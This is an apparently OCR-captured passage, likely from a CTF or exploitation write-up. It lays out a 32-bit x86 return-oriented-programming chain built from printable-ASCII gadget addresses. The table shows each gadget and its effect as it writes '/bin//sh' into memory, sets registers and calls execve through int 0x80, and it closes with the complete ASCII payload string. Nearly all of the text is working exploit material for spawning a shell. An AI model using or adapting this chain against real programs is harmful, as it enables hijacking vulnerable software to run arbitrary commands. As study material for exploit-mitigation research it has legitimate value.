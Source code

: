 | 0x55616165 | Uaae  |                                                       | edx = 0x55616165           |
| 0x5557506b | UWPk  | pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret |                            |
|            | //sh  |                                                       | eax = "//sh"               |
|            | aaaa  |                                                       |                            |
|            | bbbb  |                                                       |                            |
|            | cccc  |                                                       |                            |
|            | dddd  |                                                       |                            |
| 0x5560645c | U`d\  | mov dword ptr [edx], eax ; ret                        | [edx] = eax                |
| 0x556f4525 | UoE%  | pop edx; add dword ptr [edx], ecx; ret                |                            |
| 0x55616169 | Uaai  |                                                       | edx = 0x55616169           |
| 0x555f643f | U_d?  | add bl, al ; xor eax, eax ; ret                       | eax = 0                    |
| 0x5560645c | U`d\  | mov dword ptr [edx], eax ; ret                        | [0x55616161] = "/bin//sh"  |
| 0x556c6864 | Ulhd  | inc eax ; ret 0                                       | eax = 1                    |
| 0x0001934e | UWsN  | pop ebx ; ret                                         |                            |
| 0x55616161 | Uaaa  |                                                       | ebx = 0x55616161           |
| 0x556d2a51 | Um*Q  | pop ecx ; add al, 0xa ; ret                           | eax = 11, ecx = 0x55616169 |
| 0x55616169 | Uaai  |                                                       |                            |
| 0x55667176 | Ufqv  | inc esi ; int 0x80                                    | execve("/bin//sh", 0, 0)   |

   11112222333344445555666677778888%EoUaaaUkPWU/binaaaabbbbccccdddd\\d\`U%EoUeaaUkPWU//shaaaabbbbccccdddd\\d\`U%EoUiaaU?d_U\\d\`UdhlUNsWUaaaUQ*mUiaaUvqfU

damn you ascii armor... what a pain in the ass!! :(

